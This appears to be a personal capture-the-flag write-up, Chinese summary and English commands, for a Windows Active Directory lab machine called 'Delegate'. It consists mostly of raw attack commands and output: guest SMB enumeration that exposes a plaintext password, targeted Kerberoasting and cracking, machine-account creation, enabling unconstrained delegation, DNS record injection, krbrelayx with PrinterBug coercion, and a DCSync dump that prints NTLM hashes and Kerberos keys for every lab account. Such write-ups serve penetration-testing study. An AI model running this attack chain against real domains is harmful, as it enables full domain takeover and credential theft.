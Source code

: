 ```yaml
---
title: Delegate
weight: 724
tags:
  - windows
  - medium
  - winrm
  - kud
  - targeted-kerberoasting
---
```


## 00. 摘要

> 关键词：信息泄露、ASREProast、LDAP侦察、Shadow Credentials、Kerberos Relay

1. 信息收集：端口扫描发现开放SMB服务，然后使用 `Guest` 账户枚举 SMB 服务
	1. 得到 `A.Briggs` 账户
2. 信息收集：bloodhound
	1. `A.Briggs` -- GenericWrite -> `N.Thompson` -- CanPSRemote -> `DC1$`
	2. Targeted Kerberoasting 得到 `N.Thompson` 账户
3. 信息收集：`whoami /priv`，发现一个特殊权限
	1. SeEnableDelegationPrivilege -> 可以对指定机器启用非约束性委派
4. 非约束性委派攻击拿到 `DC1$`
5. DCSync拿到 `Administrator`



delegate.vl\A.Briggs:P4ssw0rd1#123

python3 ~/my_data/Tools/targetedKerberoast/targetedKerberoast.py -v -d 'delegate.vl' -u 'A.Briggs' -p 'P4ssw0rd1#123'

john cred.txt --wordlist=/usr/share/wordlists/rockyou.txt

delegate.vl\N.Thompson:KALEB_2341

SeMachineAccountPrivilege -> create Machine
SeEnableDelegationPrivilege -> Enable Unconstrained Delegation on a Machine

```
$ netexec smb 10.129.174.10 -u "Guest" -p "" --shares

$ impacket-smbclient Guest@10.129.174.10 -no-pass
Impacket v0.13.0.dev0+20250130.104306.0f4b866 - Copyright Fortra, LLC and its affiliated companies 

Type help for list of commands
# shares
ADMIN$
C$
IPC$
NETLOGON
SYSVOL
# use NETLOGON
# tree
/users.bat
Finished - 0 files and folders
# cat users.bat
rem @echo off
net use * /delete /y
net use v: \\dc1\development 

if %USERNAME%==A.Briggs net use h: \\fileserver\backups /user:Administrator P4ssw0rd1#123


```

```bash
# 添加机器账户
impacket-addcomputer -computer-name 'DELEGATE$' -computer-pass 'Password123!' -dc-ip 10.129.174.10 'delegate.vl'/'N.Thompson':'KALEB_2341'

bloodyAD -d delegate.vl -u N.Thompson -p KALEB_2341 --host dc1.delegate.vl add uac 'DELEGATE$' -f TRUSTED_FOR_DELEGATION

# 1. Edit the compromised account's SPN via the msDS-AdditionalDnsHostName property (HOST for incoming SMB with PrinterBug, HTTP for incoming HTTP with PrivExchange)
addspn.py -u 'delegate.vl\N.Thompson' -p 'KALEB_2341' -s 'cifs/DELEGATE.delegate.vl' -t 'DELEGATE$' -dc-ip 10.129.234.69 dc1.delegate.vl --additional

addspn.py -u 'delegate.vl\N.Thompson' -p 'KALEB_2341' -s 'cifs/DELEGATE.delegate.vl' -t 'DELEGATE$' -dc-ip 10.129.234.69 dc1.delegate.vl


# 2. Add a DNS entry for the attacker name set in the SPN added in the target machine account's SPNs
dnstool.py -u 'delegate.vl\DELEGATE$' -p 'Password123!' --action add --record DELEGATE.delegate.vl --data 10.10.14.13 --type A -dns-ip 10.129.234.69 dc1.delegate.vl

# 3. Check that the record was added successfully (after ~3 minutes)
nslookup DELEGATE.delegate.vl 10.129.234.69

# 4. Start the krbrelayx listener (the tool needs the right kerberos key to decrypt the ticket it will receive)
# 4.a. either specify the salt and password. krbrelayx will calculate the kerberos keys
krbrelayx.py --krbsalt 'DOMAINusername' --krbpass 'password'
krbrelayx.py --krbsalt 'DELEGATE.VLhost/delegate.delegate.vl' --krbpass 'Password123!'

DELEGATE.VLhost/delegate.delegate.vl

# 5. Authentication coercion
# PrinterBug, PetitPotam, PrivExchange, ...
printerbug.py domain/'vuln_account$'@'DC_IP' -hashes LM:NT 'DomainController'

printerbug.py delegate.vl/'N.Thompson':'KALEB_2341'@'dc1.delegate.vl' 'DELEGATE.delegate.vl'

```





evil-winrm -u "N.Thompson" -p 'KALEB_2341' -i 10.129.129.92


impacket-psexec 'delegate.vl'/'N.Thompson':'KALEB_2341'@'10.129.166.163'



impacket-getTGT -dc-ip "10.129.129.92" 'delegate.vl'/'DELEGATE$':'Password123!'

export KRB5CCNAME="DELEGATE$.ccache"

impacket-getST -impersonate "Administrator" -spn cifs/DC1.delegate.vl -k -no-pass -dc-ip "10.129.129.92" 'delegate.vl'/'DELEGATE$'




combine ... boom!

1. impacket-addcomputer -computer-name 'DELEGATE$' -computer-pass 'Password123!' -dc-ip 10.129.129.92 'delegate.vl'/'N.Thompson':'KALEB_2341'

# 获取计算机对象
$computer = Get-ADComputer -Identity 'DELEGATE$'
# 启用非约束性委派
Set-ADAccountControl -Identity $computer -TrustedForDelegation $true

or `bloodyAD -d delegate.vl -u N.Thompson -p KALEB_2341 --host dc1.delegate.vl add uac 'DELEGATE$' -f TRUSTED_FOR_DELEGATION`



```
$ impacket-findDelegation 'delegate.vl'/'N.Thompson':'KALEB_2341'
Impacket v0.13.0.dev0+20250130.104306.0f4b866 - Copyright Fortra, LLC and its affiliated companies 

AccountName  AccountType  DelegationType  DelegationRightsTo 
-----------  -----------  --------------  ------------------
DELEGATE$    Computer     Unconstrained   N/A
```








impacket-secretsdump -k 'delegate.vl'/'DC1$'@'dc1.delegate.vl' -no-pass

```
┌─[sg-dedivip-1]─[10.10.14.13]─[lambermaybe@htb-whajtrkjwf]─[~/my_data/Machines/Delegate]
└──╼ [★]$ impacket-secretsdump -k 'delegate.vl'/'DC1$'@'dc1.delegate.vl' -no-pass
Impacket v0.13.0.dev0+20250130.104306.0f4b866 - Copyright Fortra, LLC and its affiliated companies 

[-] Policy SPN target name validation might be restricting full DRSUAPI dump. Try -just-dc-user
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:c32198ceab4cc695e65045562aa3ee93:::


impacket-psexec 'Administrator@delegate.vl' -hashes aad3b435b51404eeaad3b435b51404ee:c32198ceab4cc695e65045562aa3ee93

Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:54999c1daa89d35fbd2e36d01c4a2cf2:::
A.Briggs:1104:aad3b435b51404eeaad3b435b51404ee:8e5a0462f96bc85faf20378e243bc4a3:::
b.Brown:1105:aad3b435b51404eeaad3b435b51404ee:deba71222554122c3634496a0af085a6:::
R.Cooper:1106:aad3b435b51404eeaad3b435b51404ee:17d5f7ab7fc61d80d1b9d156f815add1:::
J.Roberts:1107:aad3b435b51404eeaad3b435b51404ee:4ff255c7ff10d86b5b34b47adc62114f:::
N.Thompson:1108:aad3b435b51404eeaad3b435b51404ee:4b514595c7ad3e2f7bb70e7e61ec1afe:::
DC1$:1000:aad3b435b51404eeaad3b435b51404ee:f7caf5a3e44bac110b9551edd1ddfa3c:::
DELEGATE$:4601:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:f877adcb278c4e178c430440573528db38631785a0afe9281d0dbdd10774848c
Administrator:aes128-cts-hmac-sha1-96:3a25aca9a80dfe5f03cd03ea2dcccafe
Administrator:des-cbc-md5:ce257f16ec25e59e
krbtgt:aes256-cts-hmac-sha1-96:8c4fc32299f7a468f8b359f30ecc2b9df5e55b62bec3c4dcf53db2c47d7a8e93
krbtgt:aes128-cts-hmac-sha1-96:c2267dd0a5ddfee9ea02da78fed7ce70
krbtgt:des-cbc-md5:ef491c5b736bd04c
A.Briggs:aes256-cts-hmac-sha1-96:7692e29d289867634fe2c017c6f0a4853c2f7a103742ee6f3b324ef09f2ba1a1
A.Briggs:aes128-cts-hmac-sha1-96:bb0b1ab63210e285d836a29468a14b16
A.Briggs:des-cbc-md5:38da2a92611631d9
b.Brown:aes256-cts-hmac-sha1-96:446117624e527277f0935310dfa3031e8980abf20cddd4a1231ebf03e64fee8d
b.Brown:aes128-cts-hmac-sha1-96:13d1517adfa91fbd3069ed2dff04a41b
b.Brown:des-cbc-md5:ce407ac8d95ee6f2
R.Cooper:aes256-cts-hmac-sha1-96:786bef43f024e846c06ed7870f752ad4f7c23e9fdc21f544048916a621dbceef
R.Cooper:aes128-cts-hmac-sha1-96:8c6da3c96665937b96c7db2fe254e837
R.Cooper:des-cbc-md5:a70e158c75ba4fc1
J.Roberts:aes256-cts-hmac-sha1-96:aac061da82ae9eb2ca5ca5c4dd37b9af948267b1ce816553cbe56de60d2fa32c
J.Roberts:aes128-cts-hmac-sha1-96:fa3ef45e30cf44180b29def0305baeb6
J.Roberts:des-cbc-md5:6858c8d3456451f4
N.Thompson:aes256-cts-hmac-sha1-96:7555e50192c2876247585b1c3d06ba5563026c5f0d4ade2b716741b22714b598
N.Thompson:aes128-cts-hmac-sha1-96:7ad8c208f8ff8ee9f806c657afe81ea2
N.Thompson:des-cbc-md5:7cab43c191a7ecf2
DC1$:aes256-cts-hmac-sha1-96:358880cace9d6c849f2069f2ac7582b18de5185b3c815b6728cb3542c0d25fa1
DC1$:aes128-cts-hmac-sha1-96:f922407dfc023ec95d458257224ce8d9
DC1$:des-cbc-md5:9e16cd46ad54cba7
DELEGATE$:aes256-cts-hmac-sha1-96:e046a58d1ef38554e96c89357202d5a8735f50971b91aa803b1b8cb3adccc744
DELEGATE$:aes128-cts-hmac-sha1-96:3633f49c0af4aa1c87ce5c81d259b99b
DELEGATE$:des-cbc-md5:cdc297251673a86e
[*] Cleaning up... 
```